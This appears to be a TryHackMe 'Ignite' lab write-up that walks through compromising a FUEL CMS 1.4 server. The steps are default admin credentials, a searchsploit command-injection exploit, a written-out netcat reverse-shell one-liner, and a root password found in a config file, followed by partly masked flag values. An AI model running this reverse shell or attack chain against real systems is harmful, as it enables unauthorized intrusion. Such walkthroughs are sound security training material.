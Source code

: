 `Tryhackme  Ignite`
--
By :- Unknownperson
-- 

## Port Scanning:- [80]

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
| http-robots.txt: 1 disallowed entry 
|_/fuel/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)

> Port 80 have website hosting <b>Fuel CMS
Version 1.4</b> <br>
> Login page is on :- http://{IP}/fuel<br>
> I tried Default password was :- <b>admin:admin</b> And gess waht we got accesss in that <br>
> Than we serchsploit this Fuel cms 1.4 so we get <b>50477.py</b><br>
>So we get our Command Injection Screipt so we got reverse shell throw
#
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc {tun0} 5555 >/tmp/f
#
-> Than after Searching All thing's like :- 
	> ID , crontab , sudo -l , history , suid's , kernal version ....etc <br>
-> We got thing in <b>/var/www/html/fuel/application/config.database.php</b>
-> Which Contain Root Password  
## root:m****e ##
##
Q1. user.txt :- 6***e394cbf6dab6a91682cc85***59b
Q2. Root.txt :- b9bbcb33e11***be759c4***4862482d
##

`
At this Way Again We pawnd New Machine
`